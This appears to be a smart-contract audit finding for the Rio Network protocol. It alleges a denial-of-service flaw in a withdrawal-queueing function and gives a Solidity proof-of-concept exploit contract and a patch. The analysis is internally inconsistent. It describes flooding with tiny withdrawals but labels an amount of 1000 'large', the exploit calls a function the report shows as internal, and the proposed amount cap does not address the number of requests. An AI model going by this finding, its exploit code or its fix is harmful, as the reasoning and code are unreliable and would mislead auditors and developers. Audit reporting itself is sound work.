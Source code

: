Basic Mango Alligator

high

# Potential Denial of Service via Withdrawal Queue Overloading in DeFi Settlement Process

## Summary
The function **queueWithdrawalFromOperatorsForUserSettlement** is vulnerable to a Denial of Service (DoS) attack due to the lack of checks for minimum withdrawal amounts and limits on the number of queued withdrawal requests. Attackers could exploit this by flooding the queue with numerous low or zero-value withdrawals, potentially leading to a saturation of the withdrawal queue.
## Vulnerability Detail
In lines 74 to 83, the function **queueWithdrawalFromOperatorsForUserSettlement** allows users to queue withdrawal requests for settlement. If a user sends multiple withdrawal requests, each request will be added to the queue without any check on the total number of requests or the available resources to process them. This can lead to a situation where the withdrawal queue becomes overloaded with requests, causing delays in processing and potentially leading to a denial of service for legitimate users.

To exploit this vulnerability, an attacker can create a smart contract that repeatedly calls the **queueWithdrawalFromOperatorsForUserSettlement** function with a large amount of tokens or ETH. This will result in the withdrawal queue becoming overloaded with pending transactions, causing delays in processing legitimate withdrawal requests from other users.

**Proof of Concept (PoC) code:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ExploitContract {
    address public vulnerableContract;
    
    constructor(address _vulnerableContract) {
        vulnerableContract = _vulnerableContract;
    }
    
    function exploit() public {
        IRioLRTOperatorRegistry operatorRegistry = IRioLRTOperatorRegistry(vulnerableContract);
        address strategy = BEACON_CHAIN_STRATEGY;
        uint256 amount = 1000; // Large amount to overload the withdrawal queue
        
        for (uint i = 0; i < 100; i++) {
            (bytes32 aggregateRoot) = queueWithdrawalFromOperatorsForUserSettlement(operatorRegistry, strategy, amount);
        }
    }
    
    function queueWithdrawalFromOperatorsForUserSettlement(
        IRioLRTOperatorRegistry operatorRegistry,
        address strategy,
        uint256 amount
    ) internal returns (bytes32 aggregateRoot) {
        (bytes32 aggregateRoot) = IRioLRTOperatorRegistry(vulnerableContract).queueWithdrawalFromOperatorsForUserSettlement(operatorRegistry, strategy, amount);
        return aggregateRoot;
    }
}

interface IRioLRTOperatorRegistry {
    function queueWithdrawalFromOperatorsForUserSettlement(IRioLRTOperatorRegistry operatorRegistry, address strategy, uint256 amount) external returns (bytes32 aggregateRoot);
}
```
In this PoC code, the **ExploitContract** smart contract repeatedly calls the **queueWithdrawalFromOperatorsForUserSettlement** function with a large amount of tokens to overload the withdrawal queue in the vulnerable contract. This can lead to a denial of service (DoS) attack by delaying the processing of legitimate withdrawal requests.

## Impact
This could result in legitimate withdrawal requests being delayed or blocked, effectively causing a denial of service for users attempting to withdraw funds. If the system's resources for processing withdrawals are limited, this could also lead to unbounded gas consumption, further exacerbating the issue and potentially freezing user funds or unclaimed yield.
## Code Snippet
https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/utils/OperatorOperations.sol#L74-L83
## Tool used

Manual Review

## Recommendation
The vulnerability in the code lies in the function **queueWithdrawalFromOperatorsForUserSettlement** where it calls either **queueETHWithdrawalFromOperatorsForUserSettlement** or **queueTokenWithdrawalFromOperatorsForUserSettlement** based on the **strategy** parameter. If a malicious user repeatedly calls this function with a large **amount** parameter, it could potentially overload the withdrawal queue and cause a denial of service by preventing other users from withdrawing their funds.

To fix this issue, we can implement a limit on the amount that can be withdrawn in a single transaction. This limit can be set based on the capacity of the withdrawal queue to prevent it from being overloaded.

Here is an example of how the code can be patched to include a limit on the withdrawal amount:

```solidity
74       function queueWithdrawalFromOperatorsForUserSettlement(
75           IRioLRTOperatorRegistry operatorRegistry,
76           address strategy,
77           uint256 amount
78       ) internal returns (bytes32 aggregateRoot) {
79           require(amount <= MAX_WITHDRAWAL_AMOUNT, "Exceeded maximum withdrawal amount");
80           if (strategy == BEACON_CHAIN_STRATEGY) {
81               return queueETHWithdrawalFromOperatorsForUserSettlement(operatorRegistry, amount);
82           }
83           return queueTokenWithdrawalFromOperatorsForUserSettlement(operatorRegistry, strategy, amount);
84       }
```
In this patched code, **MAX_WITHDRAWAL_AMOUNT** is a constant that defines the maximum amount that can be withdrawn in a single transaction. By adding this check, we ensure that the withdrawal queue cannot be overloaded by limiting the amount that can be withdrawn at once.